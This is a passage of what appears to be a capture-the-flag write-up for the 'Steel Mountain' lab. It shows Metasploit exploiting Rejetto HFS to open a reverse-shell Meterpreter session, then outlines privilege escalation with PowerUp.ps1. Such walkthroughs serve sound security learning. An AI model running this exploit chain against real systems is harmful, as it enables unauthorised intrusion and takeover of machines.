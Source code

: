 ```
       URIPATH                     no        The URI to use for this exploit (default is random)
       VHOST                       no        HTTP server virtual host


    Exploit target:

       Id  Name
       --  ----
       0   Automatic


    msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

    [*] Started reverse TCP handler on 10.10.115.73:4444
    [*] Using URL: http://0.0.0.0:8080/FrWIZV
    [*] Local IP: http://10.10.115.73:8080/FrWIZV
    [*] Server started.
    [*] Sending a malicious request to /
    [*] Payload request received: /FrWIZV
    [*] Sending stage (180291 bytes) to 10.10.118.59
    [*] Meterpreter session 1 opened (10.10.115.73:4444 -> 10.10.118.59:49276) at 2020-07-01 23:35:23 +0000
    [!] Tried to delete %TEMP%\XQkwWxweueC.vbs, unknown result
    [*] Server stopped.

    meterpreter > clear
    [-] Unknown command: clear.
    meterpreter > sessions
    Usage: sessions <id>

    Interact with a different session Id.
    This works the same as calling this from the MSF shell: sessions -i <session id>

    meterpreter > sysinfo
    Computer        : STEELMOUNTAIN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
```

After exploiting with a remote code execution,  a meterpreter session created and the flag is available in `C:\Users\bill\Desktop` as `user.txt`

### Privilege Escalation

- We are into the remote host with a regular user (bill) and needs to escalate the privileges to Administrator account.  
- Using the [Powerup utility - runs on Powershell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) lets find out if there are any misconfigurations on the victim. Download the power shell code and upload to victim machine Metasploit's `upload` utility.  
- Load the Powershell from meterpreter `load powershell` and execute the `PowerUp.ps1` code with `Invoke-AllChecks`.
